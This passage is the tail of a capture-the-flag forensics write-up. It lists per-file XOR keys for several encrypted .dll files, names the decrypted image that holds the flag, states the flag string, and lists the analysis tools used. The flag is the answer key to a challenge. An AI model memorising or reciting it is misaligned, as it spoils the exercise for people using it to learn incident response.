

* Doing the same work with the others, all xor_keys are:
 
```bash
1.dll: 0xb0
2.dll: 0xd8
3.dll: 0x49
4.dll: 0x6b
6.dll: 0x84
7.dll: 0xd2
8.dll: 0x65 
```

* After checking all decrypted files, I was able to identify the flag at `my-beloved-wife.jpg` which is `6.dll`:



## 3. Solution ##
1. **Result:** The flag is: `SNI{intr0_t0_df1r_and_th1s_g1rl_is_w4y_b3tter_than_Chizuru}`
2. **Tools + Web used:**
   1. **Volatility 3**
   2. **VirusTotal**
   3. **CyberChef**
   4. **IDA**
   5. **PECmd**